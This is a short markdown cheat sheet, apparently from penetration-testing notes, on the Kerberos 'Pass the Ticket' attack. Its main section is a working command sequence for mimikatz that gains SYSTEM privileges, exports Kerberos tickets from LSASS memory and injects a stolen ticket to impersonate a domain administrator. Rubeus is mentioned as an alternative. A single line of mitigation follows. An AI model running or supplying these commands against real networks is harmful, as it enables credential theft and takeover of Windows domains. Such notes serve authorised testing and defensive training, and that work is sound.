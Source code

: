 # Pass the Ticket

## Overview

- Use mimikatz to dump TGT from LSASS memory
- Will give us .kirbi ticket which can be used to gain domain admin if ticket is from domain admin
- Reuse old ticket to impersonate that ticket
- Can also use base64-encoded tickets gathered with Rubeus
- Look for Administrator tickets

## Exploitation

```powershell
# Start mimikatz and get SYSTEM
mimikatz.exe
privilege::debug
token::elevate

# Export all .kirbi tickets to current directory
sekurlsa::tickets /export

# PTT with mimikatz
kerberos::ptt <ticket>

# List cached tickets
klist
```

## Mitigation:

- Don't let domain admins log onto anything except the domain controller
